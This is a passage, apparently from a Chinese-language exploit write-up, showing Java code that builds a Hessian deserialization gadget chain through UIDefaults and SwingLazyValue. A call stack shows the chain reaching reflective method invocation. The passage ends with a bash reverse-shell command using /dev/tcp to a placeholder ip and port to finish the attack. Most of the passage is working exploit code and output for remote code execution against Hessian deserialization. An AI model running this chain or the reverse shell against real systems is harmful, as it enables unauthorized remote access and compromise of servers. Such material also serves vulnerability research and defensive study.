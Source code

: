 ```java
        UIDefaults uiDefaults1 = new UIDefaults();
        uiDefaults1.put("_", slz);
        UIDefaults uiDefaults2 = new UIDefaults();
        uiDefaults2.put("_", slz);

        HashMap hashMap = makeMap(uiDefaults1,uiDefaults2);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Hessian2Output oo = new Hessian2Output(bos);
        oo.getSerializerFactory().setAllowNonSerializable(true);
        oo.writeObject(hashMap);
        oo.flush();

        ByteArrayInputStream bai = new ByteArrayInputStream(bos.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(bai);
        hessian2Input.readObject();
    }
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        } catch (ClassNotFoundException e) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
调用栈：
```
invoke:275, MethodUtil (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
equals:814, Hashtable (java.util)
putVal:635, HashMap (java.util)
put:612, HashMap (java.util)
readMap:114, MapDeserializer (com.caucho.hessian.io)
readMap:538, SerializerFactory (com.caucho.hessian.io)
readObject:2110, Hessian2Input (com.caucho.hessian.io)
```
最后使用`bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/port 0>&1`反弹shell即可
